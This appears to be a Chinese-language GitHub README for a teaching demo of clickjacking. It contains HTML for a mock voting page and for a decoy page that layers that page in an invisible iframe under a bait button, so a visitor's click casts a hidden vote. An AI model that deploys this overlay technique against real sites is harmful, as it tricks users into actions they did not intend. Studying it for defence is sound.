




# click-jacking

一个关于点击劫持的小示例，首相看下理论知识



## 项目思路

首先，制作一个功能页面，作为被iframe嵌套的功能页面；这个页面的功能就是模仿投票功能，点击按钮时，即可完成投票功能，控制台会同步打印出操作信息。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <meta http-equiv="X-UA-Compatible" content="ie=edge">
  <title>Document</title>
  <style>
    .vote{
      width: 183px;
      margin: 0 auto;
      margin-top: 220px
    }
  </style>
</head>
<body>
  <div class="vote">
    <input type="text" value="5号选手">
    <button>投票</button>
  </div>

  <script>
    var span = document.getElementsByTagName('button')[0]
    span.addEventListener('click', function(){
      console.log('哈哈，谢谢你偷偷帮我投票～')
    })
  </script>
</body>
</html>
```



制作一个只有图片的页面，用于迷惑用户进行交互；

```html
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <meta http-equiv="X-UA-Compatible" content="ie=edge">
  <title>click jacking demo</title>
  <style>
    body {
      padding: 0;
      margin: 0
    }
    .png {
      height: 100%;
      width: 100%;
    }
    .iframe {
      width: 1440px;
      height: 900px;
      position: absolute;
      top: -0px;
      left: -0px;
      z-index: 3;
      -moz-opacity: 0;
      opacity: 0;
      filter: alpha(opacity=0);
    }
    .btn {
      display: inline-block;
      padding: 2px 3px;
      background: burlywood;
      color: #fff;
      position: absolute;
      top: 221px;
      left: 766px;
      z-index: 2;
      cursor: pointer;
      border-radius: 30%
    }
  </style>
</head>
<body>
  
  <iframe class="iframe" src="./iframe.html" scolling='no' allowTransparency="true"></iframe>
  <span class="btn">click</span>
</body>
</html>
```

浏览器打开，会发现根据提示点击按钮，会在控制台中打印了相关的信息，就是说，即使我没有在功能页面进行投票操作，可是能投票。


在迷惑页面中把 `iframe` 的 `opacity` 属性值修改成 `0.3 `，就能看到这个迷惑的原因了。



至此，已经把 `点击劫持` 的形式演示完毕